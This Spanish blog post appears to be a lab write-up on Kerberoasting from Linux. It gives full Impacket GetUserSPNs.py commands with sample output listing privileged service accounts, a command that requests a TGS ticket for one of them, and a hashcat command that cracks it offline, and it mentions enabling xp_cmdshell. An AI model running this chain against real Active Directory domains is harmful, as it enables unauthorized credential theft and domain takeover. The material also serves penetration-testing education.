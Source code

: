 ```yaml
---
title: Kerberoasting from a Linux Host
published: true
---
```



![Imagen_Kerberos](/assets/Kerberos.png)

# Kerberos

## ¿qué es Kerberos?:
Es una técnica de movimiento lateral / escalada de privilegios en el entorno de Directorio Activo. Tiene como objetivo la  cuentas “Service Principal Names”. Los SPN son identificadores únicos que utiliza kerberos para mapear un servicio en una cuenta de servicio en cuyo continente corre el servicio. Las cuentas de dominio suelen utilizarse para saltarse las limitaciones de autenticación de cuentas built-in como “NT AUTHORITY\LOCAL SERVICE”. Cualquier usuario de dominio puede solicitar un ticket kerberos para una cuenta de servicio del mismo dominio. Esto también está permitido entre árboles de dependencia en caso de que la autenticación esté permitida en el árbol de confianza. Lo único que necesitamos para realizar un ataque kerberoasting es una contraseña en texto claro ( o un hash NTLM), una shell en el contexto de un usuario de dominio o acceso a nivel de sistema a un host unido a dominio. Las cuentas de dominio que corren servicios son a menudo administradores locales, si no cuentas de altos privilegios de dominio. Debido a la naturaleza distribuida de los sistemas, interacción de servicios y transferencias de datos asociadas, las cuentas de servicio pueden ser ser administradores privilegiados en múltiples servidores a lo largo de la compañía. Muchos servicios requieren elevados privilegios en el sistema, por lo que las cuentas de servicio se suelen asociar a los grupos de privilegiados como Domain Admins. Es muy común encontrar con SPNs asociados a cuentas de privilegios elevados en un entorno Windows. Conseguir un ticket kerberos para una cuenta con SPN no significa per se que tengamos permiso para ejecutar comandos en el contexto de esta cuenta. Sin embargo el ticket TGS-REP está cifrado con el hash NTLM de la cuenta por lo que la contraseña en texto claro puede ser obtenida forzándolo a un ataque de fuerza bruta off-line.
Las cuentas de servicio suelen tener contraseñas débiles o reutilizadas para simplificar la tarea del administrador y en algunas ocasiones la contraseña es la misma que el nombre de usuario. Si la contraseña para una cuenta de dominio de SQL Service es craqueada, es probable que te puedas hacer administrador local en múltiples servidores o incluso el Domain Admin. Incluso si mediante kerberoasting conseguimos un ticket con un nivel de cuenta de usuario poco privilegiada, podemos utilizarla para solicitar tickets de servicio del servicio especificado en el SPN. Por ejemplo, si el SPN es de MSSQL/SRV01, podemos acceder al MSSQL como sys admin, habilitar xp_cmdshell extended procedure y obtener la capacidad de ejecución de código en el servidor SQL.
 

## A tener en cuenta durante el ataque:
Obtener un ticket TGS no te garantiza obtener una lista de credenciales válidas, el ticket debe ser crackeado off-line para obtener la contraseña en texto claro. Los tickets TGS llevan más tiempo de crackeo que otros tickets como los NTLM por lo que a menudo , a no ser que tenga una política débil de contraseñas puede resultar muy difícil o imposible crackear una contraseña con una plataforma normal de crackeo

## Desarrollo del ataque:
Los ataques de kerberoasting son fáciles de ejecutar con herramientas y scripts que lo automatizan. Podemos realizar estos ataques tanto desde un host linux como windows. Primero lo veremos desde un host Linux y de una manera semi-automatizada.

**Prerequisito**
Prerrequisitos: Una shell en un contexto de usuario de dominio o una cuenta como SYSTEM. Debemos saber también que host el Domain Controller.
Lo primero que necesitamos es el se de herramientas de Impacket.
```bash
sudo python3 -m pip install .
```

**Obtener lista de SPNs en el dominio**
Podemos obtener una lista de los SPNs presentes en el dominio. Para ello necesitaremos una lista de **credenciales válidas** y la **dirección del Domain Controller**. Podemos autenticarnos contra el Domain Controller con una contraseña en texto claro, un hash NTLM o un ticket Kerberos. Para nuestro caso utilizaremos el método de la contraseña. Con el siguiente comando podemos hacer un prompt de las credenciales y conseguir una lista de SPNs de una manera agradable. En el prompt de abajo podemos ver un ejemplo. Si podemos conseguir alguno de estos tickets y crackearlo podría llevar al compromiso del dominio. Es igualmente necesario que investiguemos todos los diferentes usuarios que aparecen porque no sabemos quien podría ser más fáciles de crackear.

```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>               
sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>               
MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>               
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>               
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>               
adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never> 
```

##Obtener el Ticket:
Una vez hemos visto los tickets que hay disponibles podemos hacer un request de cualquiera de ellos, aunque como ya hemos dicho sería necesario hacerlo de todos porque no sabemos quién podría tener una contraseña débil. 
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```
Con el ticket final en nuestro poder solo tenemos que crackearlo en busca de la contraseña en texto plano, como este ejemplo es de un laboratorio sencillito la contraseña está dentro del diccionario "rockyou.txt". Para casos profesionales tendríamos que generar un diccionario personalizado, pero eso lo subiré en otro post.

##Crackeo del Ticket:
```bash
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

```Python 
Happy Hacking
```

```Python 
bl4sdl3zo@proton.me
```
